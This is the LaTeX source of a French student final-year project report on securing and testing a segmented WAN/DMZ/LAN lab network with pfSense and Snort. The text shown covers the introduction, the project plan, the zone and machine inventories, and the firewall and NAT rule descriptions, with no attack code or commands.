% !TeX program = lualatex
% !TeX encoding = UTF-8
% !TeX spellcheck = fr_FR
%
% ==============================================================================
% RAPPORT DE PROJET DE FIN D'ÉTUDES (PFE)
% Sécurité Offensives et Défensives dans une Infrastructure Segmentée
% ==============================================================================

\documentclass[12pt,a4paper,openany]{report}

% ==============================================================================
% 1. CONFIGURATION MOTEUR & LANGUE
% ==============================================================================
\usepackage{fontspec}
\usepackage{polyglossia}
\setmainlanguage{french}
\setotherlanguage{english}

% ==============================================================================
% 2. MISE EN PAGE
% ==============================================================================
\usepackage{geometry}
\geometry{left=2.5cm, right=2.5cm, top=3cm, bottom=3cm, headheight=30pt}

\usepackage{fancyhdr}
\usepackage{titlesec}
\usepackage{tocloft}
\usepackage{titletoc}

% ==============================================================================
% 3. TYPOGRAPHIE & STYLE
% ==============================================================================
\usepackage{setspace}
\usepackage{xcolor}
\usepackage{csquotes}
\usepackage{enumitem}
\usepackage{indentfirst}
\usepackage{hyphenat}
\usepackage[skins, breakable]{tcolorbox}

% ==============================================================================
% 4. MATHÉMATIQUES & SYMBOLES
% ==============================================================================
\usepackage{amsmath}
\usepackage{amssymb}
\usepackage{amsfonts}
\usepackage{mathtools}

% ==============================================================================
% 5. GRAPHISMES & DIAGRAMMES
% ==============================================================================
\usepackage{graphicx}
\usepackage{tikz}
\usetikzlibrary{positioning, shapes.geometric, arrows.meta, calc, shadows}
\usepackage{pgfplots}
\pgfplotsset{compat=1.18}
\usepackage{caption}
\usepackage{subcaption}
\usepackage{float}

% ==============================================================================
% 6. TABLEAUX
% ==============================================================================
\usepackage{booktabs}
\usepackage{longtable}
\usepackage{array}
\usepackage{multirow}
\usepackage{tabularx}
\usepackage{colortbl}

% ==============================================================================
% 7. CODE & LISTINGS
% ==============================================================================
\usepackage{listings}
\usepackage{lstautogobble}

% ==============================================================================
% 8. HYPERLINKS & REFS
% ==============================================================================
\usepackage{hyperref}
\usepackage{bookmark}
\usepackage{url}
\usepackage{hypcap}

% ==============================================================================
% 9. DIVERS
% ==============================================================================
\usepackage{pdfpages}
\usepackage{imakeidx}
\usepackage{lastpage}
\usepackage{float}

% ==============================================================================
% POLICES
% ==============================================================================
\setmainfont{Latin Modern Roman}
\setsansfont{Latin Modern Sans}
\setmonofont{Latin Modern Mono}

% ==============================================================================
% COULEURS - DEEP BURGUNDY THEME
% ==============================================================================
\definecolor{primary}{RGB}{128,0,32}           % Deep burgundy (professional, sophisticated)
\definecolor{secondary}{RGB}{220,20,60}        % Crimson accent
\definecolor{accent}{RGB}{220,20,60}           % Crimson
\definecolor{success}{RGB}{0,128,0}
\definecolor{warning}{RGB}{255,165,0}
\definecolor{codebg}{RGB}{248,248,248}
\definecolor{codekeyword}{RGB}{128,0,32}       % Matching primary
\definecolor{codestring}{RGB}{163,21,21}
\definecolor{codecomment}{RGB}{0,128,0}
\definecolor{footergray}{RGB}{100,100,100}
\definecolor{logbgcolor}{RGB}{250,250,250}
\definecolor{tableheadbg}{RGB}{128,0,32}       % Deep burgundy header
\definecolor{tableheadfg}{RGB}{255,255,255}    % White text
\definecolor{tablerowalt}{RGB}{245,235,240}    % Light burgundy alternating
\definecolor{tableborder}{RGB}{128,0,32}       % Deep burgundy border

\usepackage{amssymb}
\usepackage{pifont}

% Utiliser les symboles existants
\newcommand{\success}{\ding{51}}      % ✅ checkmark from pifont
\newcommand{\warningsymbol}{\ding{55}}  % ⚠️ X from pifont
\newcommand{\greenpoint}{\bullet}     % 🟢 bullet

% ==============================================================================
% EN-TÊTES & PIEDS DE PAGE
% ==============================================================================
\pagestyle{fancy}
\fancyhf{}

\renewcommand{\headrulewidth}{0.4pt}
\renewcommand{\headrule}{\hbox to\headwidth{%
		\color{primary}\leaders\hrule height \headrulewidth\hfill}}
\renewcommand{\footrulewidth}{0.4pt}
\renewcommand{\footrule}{\hbox to\headwidth{%
		\color{primary}\leaders\hrule height \footrulewidth\hfill}}

\fancyhead[L]{\textcolor{primary}{\small\bfseries Sécurité Offensive et Défensive}}
\fancyhead[R]{\textcolor{primary}{\small\bfseries ESTK IDRS 2025-2026}}

\newif\ifshowpagenumbers
\showpagenumberstrue

\fancyfoot[C]{\textcolor{footergray}{\small%
		\ifshowpagenumbers%
		Page \thepage\ sur \pageref{LastPage}%
		\fi%
}}

\fancypagestyle{plain}{
	\fancyhf{}
	\renewcommand{\headrulewidth}{0pt}
	\renewcommand{\footrulewidth}{0.4pt}
	\renewcommand{\footrule}{\hbox to\headwidth{%
			\color{primary}\leaders\hrule height \footrulewidth\hfill}}
	\fancyfoot[C]{\textcolor{footergray}{\small%
			\ifshowpagenumbers%
			Page \thepage\ sur \pageref{LastPage}%
			\fi%
	}}
}

\newcommand{\hidepagenumbers}{\showpagenumbersfalse\pagestyle{empty}}
\newcommand{\showpagenumbers}{\showpagenumberstrue\pagestyle{fancy}}

% ==============================================================================
% FORMATAGE TITRES
% ==============================================================================
\titleformat{\chapter}[display]
{\normalfont\huge\bfseries\color{primary}}{\chaptertitlename\ \thechapter}{20pt}{\Huge}
\titleformat{\section}
{\normalfont\Large\bfseries\color{primary}}{\thesection}{1em}{}
\titleformat{\subsection}
{\normalfont\large\bfseries\color{secondary}}{\thesubsection}{1em}{}

% ==============================================================================
% LISTINGS
% ==============================================================================
\lstset{
	basicstyle=\ttfamily\small,
	backgroundcolor=\color{codebg},
	keywordstyle=\color{codekeyword}\bfseries,
	stringstyle=\color{codestring},
	commentstyle=\color{codecomment}\itshape,
	frame=single,
	rulecolor=\color{primary},
	breaklines=true,
	breakatwhitespace=true,
	showstringspaces=false,
	captionpos=b,
	numbers=left,
	numberstyle=\tiny\color{gray},
	numbersep=5pt,
	tabsize=4,
	extendedchars=true,
	inputencoding=utf8,
	autogobble=true
}

\lstdefinestyle{logstyle}{
	basicstyle=\ttfamily\footnotesize,
	backgroundcolor=\color{logbgcolor},
	frame=none,
	breaklines=true,
	showstringspaces=false,
	autogobble=true
}

% ==============================================================================
% COMMANDES CUSTOM
% ==============================================================================
\newcommand{\tableheadcolor}{\rowcolor{tableheadbg}}
\newcommand{\todo}[1]{\textcolor{accent}{\textbf{[TODO: #1]}}}

% ==============================================================================
% HYPERREF METADATA
% ==============================================================================
\hypersetup{
	colorlinks=true,
	linkcolor=primary,
	filecolor=magenta,
	urlcolor=secondary,
	pdftitle={Sécurité Offensive et Défensive dans une Infrastructure Segmentée - PFE},
	pdfauthor={Yasser Bella, Oussama El Habti},
	pdfsubject={Cybersécurité : Offensive + Defensive Security Testing},
	pdfkeywords={Cybersecurity, Penetration Testing, IDS/IPS, Lateral Movement, Network Segmentation}
}

% ==============================================================================
% INTERLIGNE
% ==============================================================================
\onehalfspacing

% ==============================================================================
% DOCUMENT
% ==============================================================================
\begin{document}
	\sloppy
	
	% ==============================================================================
	% PAGE DE TITRE
	% ==============================================================================
	\begin{titlepage}
		\thispagestyle{empty}
		
		% Barre supérieure
		\noindent
		\colorbox{primary}{%
			\parbox{\dimexpr\textwidth-2\fboxsep}{%
				\vspace{0.8cm}
				\centering
				{\large\bfseries\textcolor{white}{École Supérieure de Technologie de Kénitra }}\\[0.8cm]
			}%
		}
		
		\vspace{2cm}
		\centering
		
		% Titre principal
		{\Huge\bfseries\color{primary}
			Sécurité Offensive et Défensive\\[0.4cm]
			dans une Infrastructure Segmentée\\[0.6cm]
		}
		
		% Sous-titre
		{\Large\color{secondary}
			Analyse complète : de la reconnaissance\\
			à la détection des menaces\par
		}
		
		\vspace{0.8cm}
		{\color{accent}\rule{10cm}{1.5pt}\par}
		
		\vspace{2cm}
		
		% Infos étudiants
		{\large
			\renewcommand{\arraystretch}{1.5}
			\begin{tabular}{c}
				\textbf{\color{primary}Équipe de Réalisation :}\\[0.3cm]
				Yasser \textsc{Bella} \\
				Oussama \textsc{El Habti} \\[0.6cm]
				
				\textbf{\color{primary}Encadrement :}\\[0.3cm]
				Mme Salma \textsc{El Bakkal}\\[0.6cm]
				
				\textbf{\color{primary}Filière :} IDRS --- Infrastructure Digitale Réseau et Sécurité \\[0.3cm]
				\textbf{\color{primary}Année Universitaire :} 2025 -- 2026 \\
			\end{tabular}
		}
		
	\end{titlepage}
	
	% ==============================================================================
	% PAGE DE REMERCIEMENTS
	% ==============================================================================
	\newpage
	\thispagestyle{plain}
	
	\vspace*{2cm}
	
	\begin{center}
		{\Large\bfseries\color{primary}Remerciements}
	\end{center}
	
	\vspace{1.5cm}
	
	Nous adressons nos plus sincères remerciements à \textbf{Mme Salma El Bakkal}, notre encadrante pédagogique, pour sa bienveillance, ses conseils avisés et sa disponibilité tout au long de la réalisation de ce projet de fin d'études.
	
	Nous remercions également :
	
	\begin{itemize}[leftmargin=*]
		\item L'équipe pédagogique de la filière \textbf{IDRS} de l'École Supérieure de Technologie de Kénitra pour la qualité de la formation reçue et les ressources mises à notre disposition.
		
		\item Les auteurs et mainteneurs des outils \textit{open source} utilisés dans ce projet (\textit{pfSense}, \textit{Snort}, \textit{Metasploit}), sans lesquels ce travail n'aurait pas pu voir le jour.
		
		\item Nos familles respectives pour leur soutien constant tout au long de ces études.
	\end{itemize}
	
	\vspace{2cm}
	
	\noindent
	Ce projet représente l'aboutissement d'une année de travail acharné, de recherche et d'expérimentation dans le domaine de la cybersécurité.
	
	% ==============================================================================
	% PAGES LIMINAIRES
	% ==============================================================================
	\hidepagenumbers
	
	\newpage
	\tableofcontents
	
	\newpage
	\listoffigures
	
	\newpage
	\listoftables
	
	% ==============================================================================
	% RESTORE PAGE NUMBERING
	% ==============================================================================
	\cleardoublepage
	\showpagenumbers
	\pagenumbering{arabic}
	\setcounter{page}{1}
	
	% ==============================================================================
	% CHAPITRE 0 : INTRODUCTION GÉNÉRALE
	% ==============================================================================
	\chapter{Introduction Générale}
	
	\section{Contexte et Motivation}
	
	La cybersécurité contemporaine repose sur un équilibre délicat entre deux postures : la \textbf{défense} (hardening, segmentation, détection) et la \textbf{compréhension offensive} (reconnaissance, exploitation, mouvement latéral). Le succès durable requiert une maîtrise des deux dimensions.
	
	Ce projet de fin d'études documente une approche holistique appliquée à une infrastructure réseau réaliste, segmentée en trois zones (WAN, DMZ, LAN) typiques des environnements d'entreprise. L'objectif n'est pas seulement de \textit{construire} une défense, mais de \textit{valider son efficacité} face à une chaîne d'attaque progressive et de \textit{déployer des mécanismes de détection} pour intercepter les menaces internes. Ce projet explore également comment combiner des traces hétérogènes provenant de sources multiples (IDS réseau, logs applicatifs, honeypot) pour reconstruire fidèlement une attaque.
	
	\section{Architecture de la Recherche}
	
	Le projet s'organise autour de quatre expérimentations interdépendantes :
	
	\begin{table}[H]
		\centering
		\renewcommand{\arraystretch}{1.6}
		\setlength{\arrayrulewidth}{0.5pt}
		\begin{tabular}{>{\centering\arraybackslash}p{1.3cm} p{4.2cm} p{7.5cm}}
			\arrayrulecolor{tableborder}
			\hline
			\tableheadcolor
			\textcolor{tableheadfg}{\textbf{Phase}}   &
			\textcolor{tableheadfg}{\textbf{Domaine}} &
			\textcolor{tableheadfg}{\textbf{Objectifs Clés}}                                                                                                        \\
			\hline
			\rowcolor{tablerowalt}
			\textbf{1}                                & Défense Périmétrique & Architecture réseau, pare-feu stateful, segmentation, IDS aperçu                     \\
			
			\textbf{2}                                & Reconnaissance       & Configuration services vulnérables, reconnaissance active (Nmap), surface d'attaque  \\
			
			\rowcolor{tablerowalt}
			\textbf{3}                                & Attaque              & Exploitation initiale, post-exploitation Meterpreter, pivoting latéral, exfiltration \\
			
			\textbf{4}                                & Détection Active     & Snort IDS, analyse alertes, corrélation avec chaîne d'attaque, recommandations       \\
			\hline
		\end{tabular}
		\caption{Structure des quatre phases expérimentales}
		\label{tab:phases-overview}
	\end{table}
	
	\textbf{Progression Pédagogique :} Chaque phase fournit le contexte et les conditions pour la suivante. Une infrastructure défensive solide (Phase 1) accueille les tests de reconnaissance (Phase 2), qui sont exploités lors de l'attaque (Phase 3), et détectés par les mécanismes actifs (Phase 4).
	
	\section{Plan du Rapport}
	
	Le présent document est organisé en deux volets complémentaires :
	
	\begin{itemize}[leftmargin=*]
		\item \textbf{Volet Technique} (Chapitres 2-5) : Description détaillée de chaque phase, configurations, résultats quantifiés, captures de preuve.
		
		\item \textbf{Volet Analytique} (Chapitres 6-7) : Synthèse intégrée, leçons apprises, recommandations pour production, perspectives futures.
	\end{itemize}
	
	\section{Questions de Recherche}
	
	Ce projet traite les questions suivantes :
	
	\begin{enumerate}[leftmargin=*]
		\item Comment construire une infrastructure réseau segmentée et comment valider son efficacité défensive?
		\item Quels sont les vecteurs d'attaque réalistes dans un réseau segmenté, et comment une chaîne d'attaque progressive progresse-t-elle?
		\item Comment un système de détection par signatures (IDS) complète-t-il un pare-feu stateful pour révéler les menaces internes?
		\item Quels sont les enseignements applicables en production, et comment évolue la posture de sécurité lors du déploiement de chaque mécanisme?
	\end{enumerate}
	
	% ==============================================================================
	% CHAPITRE 1 : ARCHITECTURE & INFRASTRUCTURE
	% ==============================================================================
	\chapter{Architecture Défensive : Segmentation et Pare-feu}

\section{Principes Fondamentaux}

La segmentation réseau est un pilier de la stratégie de \textit{défense en profondeur}. Plutôt que de concentrer les défenses au périmètre, cette approche subdivise le réseau en zones isolées, chacune avec ses propres règles de filtrage. En cas de compromission d'une zone, la propagation vers les ressources critiques est ralentie ou bloquée.

\subsection{Zones Réseau et Rôles}

L'infrastructure de laboratoire s'organise en trois zones discrètes :

\begin{table}[H]
	\centering
	\renewcommand{\arraystretch}{1.5}
	\setlength{\arrayrulewidth}{0.5pt}
	\begin{tabular}{>{\bfseries}p{2.2cm} p{4.5cm} p{6.3cm}}
		\arrayrulecolor{tableborder}
		\hline
		\tableheadcolor
		\textcolor{tableheadfg}{\textbf{Zone}}     &
		\textcolor{tableheadfg}{\textbf{Plage IP}} &
		\textcolor{tableheadfg}{\textbf{Fonction}}                                                                                   \\
		\hline
		\rowcolor{tablerowalt}
		\textbf{WAN}                               & 192.168.100.0/24 & Accès Internet (simulation externe), points d'attaque        \\

		\textbf{DMZ}                               & 192.168.10.0/24  & Serveurs exposés (HTTP, services publics), zone risquée      \\

		\rowcolor{tablerowalt}
		\textbf{LAN}                               & 192.168.20.0/24  & Ressources internes (postes utilisateurs, BD), zone critique \\
		\hline
	\end{tabular}
	\caption{Organisation des zones réseau}
	\label{tab:zones-network}
\end{table}

\subsection{Équipements et Rôles}

\begin{table}[H]
	\centering
	\renewcommand{\arraystretch}{1.4}
	\setlength{\arrayrulewidth}{0.5pt}
	\begin{tabular}{>{\bfseries}p{3.2cm} p{3cm} p{2.5cm} p{4.3cm}}
		\arrayrulecolor{tableborder}
		\hline
		\tableheadcolor
		\textcolor{tableheadfg}{\textbf{Machine}} &
		\textcolor{tableheadfg}{\textbf{IP}}      &
		\textcolor{tableheadfg}{\textbf{Zone}}    &
		\textcolor{tableheadfg}{\textbf{Rôle}}                                                                     \\
		\hline
		\rowcolor{tablerowalt}
		pfSense (Routeur/FW)                      & 192.168.100.6 (WAN) & WAN/DMZ/LAN & Seg. réseau, filtrage, IDS \\
		Ubuntu DMZ                                & 192.168.10.100      & DMZ         & Serveur exposé, pivot      \\
		\rowcolor{tablerowalt}
		Parrot Security                           & 192.168.100.150     & WAN         & Machine attaquante         \\
		Windows XP                                & 192.168.20.50       & LAN         & Cible secondaire           \\
		\hline
	\end{tabular}
	\caption{Inventaire des équipements virtuels}
	\label{tab:equipment-inventory}
\end{table}

\section{Topologie Logique}


\section{Pare-feu pfSense : Configuration}

pfSense est un routeur/pare-feu open-source basé sur FreeBSD. Il implémente un \textbf{pare-feu stateful}, capable de :
\begin{itemize}
	\item Filtrer le trafic basé sur IP/ports/protocoles.
	\item Maintenir une table d'états des connexions établies.
	\item Appliquer des règles d'ordre spécifique (first match wins).
	\item Effectuer du NAT (Network Address Translation) pour rediriger le trafic.
	\item Héberger des modules de sécurité (Snort, pfBlockerNG).
\end{itemize}

\subsection{Règles de Filtrage par Défaut}

Le principe fondamental appliqué est le \textbf{default deny} : tout trafic non explicitement autorisé est bloqué. Ceci assure une posture défensive par défaut.

\subsubsection{Flux WAN $\rightarrow$ DMZ (Port Forwarding)}

Pour exposer les services du serveur DMZ, des règles NAT permettent de rediriger les connexions entrantes vers la DMZ interne :

\begin{table}[H]
	\centering
	\renewcommand{\arraystretch}{2}
	\setlength{\tabcolsep}{12pt}
	\setlength{\arrayrulewidth}{1pt}
	\begin{tabularx}{\textwidth}{|>{\raggedright\arraybackslash\bfseries}p{2cm}|>{\raggedright\arraybackslash}p{2.2cm}|>{\centering\arraybackslash}p{1.8cm}|X|}
		\hline
		\rowcolor{primary}
		\textcolor{white}{\textbf{Machine}} & 
		\textcolor{white}{\textbf{Adresse IP}} & 
		\textcolor{white}{\textbf{Zone}} & 
		\textcolor{white}{\textbf{Rôle}} \\
		\hline
		\rowcolor{tablerowalt}
		pfSense (Routeur/FW) & 
		192.168.100.6 & 
		WAN/DMZ/LAN & 
		Segmentation réseau, filtrage dynamique, IDS \\
		\hline
		Ubuntu DMZ & 
		192.168.10.100 & 
		DMZ & 
		Serveur exposé, pivot point pour mouvement latéral \\
		\hline
		\rowcolor{tablerowalt}
		Parrot Security & 
		192.168.100.150 & 
		WAN & 
		Machine attaquante (reconnaissance, exploitation) \\
		\hline
		Windows XP & 
		192.168.20.50 & 
		LAN & 
		Cible secondaire (pivoting, post-exploitation) \\
		\hline
	\end{tabularx}
	\caption{Inventaire des équipements virtuels}
	\label{tab:equipment-inventory}
\end{table}

Chaque règle NAT est associée à une règle pare-feu autorisant le trafic sur l'interface WAN. Sans cette association, les connexions seraient bloquées malgré la règle NAT.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.95\textwidth]{screenshots/nat-rules.png}
	\caption{NAT Port Forwarding Rules (expose Telnet:23, HTTP:80)}
	\label{fig:nat-rules-main}
\end{figure}

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.95\textwidth]{screenshots/nat-rules-2.png}
	\caption{NAT Port Forwarding Rules (expose Telnet:23, HTTP:80)}
	\label{fig:nat-rules-secondary}
\end{figure}

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.95\textwidth]{screenshots/nat-rules-3.png}
	\caption{NAT Port Forwarding Rules (expose Telnet:23, HTTP:80)}
	\label{fig:nat-rules-tertiary}
\end{figure}

\subsubsection{Flux DMZ $\rightarrow$ LAN (Segmentation)}

\textbf{Configuration Sécurisée par Défaut :} Aucune règle n'autorise le trafic DMZ $\rightarrow$ LAN, garantissant que la compromission de la DMZ n'expose pas immédiatement le LAN.

\textbf{Configuration Pédagogique (Chapitre 3 du volet attaque) :} Pour les besoins du projet et la démonstration du pivoting, une règle permissive a été ajoutée temporairement. Cette configuration illustre comment une erreur de configuration peut transformer un pivot en arme offensive. En production, cette règle ne serait jamais activée.

\subsubsection{Flux LAN $\rightarrow$ DMZ (Consommation)}

Les ressources internes (postes utilisateurs) peuvent accéder aux services DMZ (HTTP, etc.) pour des usages légitimes. Ces flux sont autorisés directement sans restriction de port.

\begin{figure}[H]
	\centering
